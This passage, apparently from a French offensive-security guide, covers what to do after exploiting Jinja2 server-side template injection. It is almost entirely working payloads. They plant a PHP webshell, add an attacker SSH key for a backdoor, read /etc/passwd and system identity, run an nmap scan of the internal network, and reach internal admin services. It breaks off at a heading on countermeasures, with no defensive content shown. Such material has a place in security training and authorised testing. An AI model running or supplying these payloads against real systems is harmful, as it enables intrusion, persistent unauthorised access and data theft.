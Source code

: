 ### Techniques de Persistance

Une fois l'exécution de code obtenue, établir une persistance devient prioritaire :

**Installation de Webshells :**

```python
# Via Jinja2 - Création d'un webshell
{{''.__class__.__mro__[^1].__subclasses__()[^104].__init__.__globals__['sys'].modules['os'].system('echo "<?php system($_GET[cmd]); ?>" > /var/www/html/shell.php')}}
```

**Création de Backdoors SSH :**

```bash
# Ajout de clé SSH publique
echo "ssh-rsa AAAAB3Nza... attacker@machine" >> ~/.ssh/authorized_keys
```

### Escalade de Privilèges

L'exploitation SSTI s'exécute avec les privilèges de l'application web. Des techniques d'escalade sont souvent nécessaires :

**Énumération Système :**

```python
# Reconnaissance système via SSTI
{{''.__class__.__mro__[^1].__subclasses__()[^104].__init__.__globals__['sys'].modules['os'].system('uname -a && id && cat /etc/passwd')}}
```

**Exploitation de Capabilities :**

```bash
# Recherche de binaires avec capabilities
getcap -r / 2>/dev/null
```

### Mouvement Latéral

**Découverte de Réseau :**

```python
# Scan réseau interne via SSTI
{{''.__class__.__mro__[^1].__subclasses__()[^104].__init__.__globals__['sys'].modules['os'].system('nmap -sn 192.168.1.0/24')}}
```

**Accès aux Services Internes :**

```python
# Test de services internes
{{''.__class__.__mro__[^1].__subclasses__()[^104].__init__.__globals__['sys'].modules['urllib.request'].urlopen('http://internal-service:8080/admin')}}
```

## Défenses et Contremesures
